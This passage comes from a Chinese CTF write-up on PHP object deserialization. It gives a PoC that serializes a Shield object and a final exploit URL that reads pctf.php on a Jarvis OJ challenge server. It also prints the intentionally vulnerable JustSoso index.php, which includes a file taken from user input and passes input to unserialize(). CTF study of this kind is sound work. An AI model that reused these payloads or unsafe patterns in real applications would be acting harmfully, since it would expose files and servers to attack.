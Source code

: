 ```php
        }
    }
```

index.php 1.包含了一个shield.php 2.实例化了Shiele方法 3.通过[GET]接收了用户反序列化的内容，输出了readfile()方法

shield.php 1.首先就能发现file是可控的（利用点） 2.construct()在index中实例化的时候就已经执行了，因此不会影响我们对可控$file的利用。

###### 构造poc

```php
<?php
	class Shield
	{
		public $file = "pctf.php";
	}
	$flag = new Shield();
	print_r(serialize($flag));
?>
```

[![EnhOeg.md.png](https://s2.ax1x.com/2019/04/26/EnhOeg.md.png)](https://imgchr.com/i/EnhOeg)
最终poc:

<http://web.jarvisoj.com:32768/index.php?class=O:6:%22Shield%22:1:{s:4:%22file%22;s:8:%22pctf.php%22;}>

#### ciscn2019 web1- JustSoso

读源码的过程省略（反正也没有保存嘤～）

```php
//index.php
<html>
<?php
error_reporting(0); 
$file = $_GET["file"]; 
$payload = $_GET["payload"];
if(!isset($file)){
	echo 'Missing parameter'.'<br>';
}
if(preg_match("/flag/",$file)){
	die('hack attacked!!!');
}
@include($file);
if(isset($payload)){  
    $url = parse_url($_SERVER['REQUEST_URI']);
    parse_str($url['query'],$query);
    foreach($query as $value){
        if (preg_match("/flag/",$value)) { 
    	    die('stop hacking!');
    	    exit();
        }
    }
    $payload = unserialize($payload);
}else{ 
   echo "Missing parameters"; 
} 
?>
<!--Please test index.php?file=xxx.php -->
<!--Please get the source of hint.php-->
</html>
```
